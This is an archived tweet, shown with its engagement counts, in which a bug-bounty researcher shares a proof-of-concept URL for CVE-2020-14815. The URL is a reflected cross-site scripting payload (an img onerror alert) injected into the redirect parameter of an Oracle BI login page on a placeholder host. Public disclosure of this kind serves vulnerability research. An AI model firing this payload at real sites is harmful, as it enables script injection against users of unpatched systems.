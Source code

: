 <td><img src="pictures/969880f9d01d1291a4f27f0bdff5105f8fcc5ff1f2390ed55df6b6c1294a6214.jpg" alt="969880f9d01d1291a4f27f0bdff5105f8fcc5ff1f2390ed55df6b6c1294a6214.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# HackerOn2Wheels
**https://twitter.com/HackerOn2Wheels/status/1326927875279380480 _at 2020-11-12, 16:40:33_**
<blockquote>
Nothing critical, but here is the PoC for the new CVE I got credited for: CVE-2020-14815. 

https://target[.]com/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert(document.domain)&gt;

Got a couple of Med in H1 using it. Have Fun!

#bugbounty #bugbountytips https://t.co/A8qx640VgE
</blockquote>

<table><tr>